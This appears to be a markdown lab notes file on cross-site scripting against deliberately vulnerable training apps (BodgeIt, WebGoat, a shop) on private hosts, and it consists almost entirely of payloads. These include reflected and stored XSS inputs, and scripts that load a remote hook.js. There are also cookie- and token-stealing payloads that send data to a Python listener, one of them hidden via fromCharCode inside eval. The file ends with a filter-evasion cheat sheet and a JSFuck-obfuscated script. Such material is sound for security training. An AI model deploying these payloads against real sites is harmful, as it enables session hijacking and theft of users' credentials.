 # A3 Cross-Site Scripting (XSS)


## Refelcted

`http://10.6.6.13:8080/bodgeit/search.jsp?q=%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E`

`http://10.6.6.13:8080/bodgeit/search.jsp?q=<sCrIpt src='http://10.6.6.13:3000/hook.js'></ScRipT>`

[Reflected XSS in WebGoat](http://10.6.6.10:8080/WebGoat-5.4/attack?Screen=20&menu=900)

## Stored


[BodgeIt / registration](http://10.6.6.13:8080/bodgeit/register.jsp)

`hacker@citadelo.com<scriPt>alert("XSS");</scRipt>`

trigger it 

`http://10.6.6.13:8080/bodgeit/admin.jsp`


[BodgeIt / Contact](http://10.6.6.13:8080/bodgeit/contact.jsp)

`<sCriPt>alert(document.cookie);</scRipT>`


priklad

Start a simple HTTP server as a listener

`python -m SimpleHTTPServer 8888`

```
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'&'+location.search+'"/>';</script><textarea cols="0" rows="0" style="display:none">
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'"/>';</script><textarea cols="0" rows="0">
```

```
document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'&token='+location.search.split('token=')[1].split('&')[0]+'"/>';
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper</textarea><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,104,101,97,100,101,114,39,41,46,105,110,110,101,114,72,84,77,76,43,61,39,60,105,109,103,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,54,46,54,46,54,47,63,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,39,38,116,111,107,101,110,61,39,43,108,111,99,97,116,105,111,110,46,115,101,97,114,99,104,46,115,112,108,105,116,40,39,116,111,107,101,110,61,39,41,91,49,93,46,115,112,108,105,116,40,39,38,39,41,91,48,93,43,39,34,47,62,39,59));</script><textarea cols="0" rows="0">
```

`</textarea><script src=http://10.6.6.13:3000/hook.js><textarea>`



## DOM based

AwesomeShop

`http://10.6.6.13/oc/index.php?route=common/home#default=Slovak`

`http://10.6.6.13/oc/index.php?route=common/home#default=%3Cscript%3Ealert%281%29%3C/script%3E`


### Prezentacia

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<svg/onload=alert(’XSS')>

```


JSFuck
```
<script>
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
</script>

```
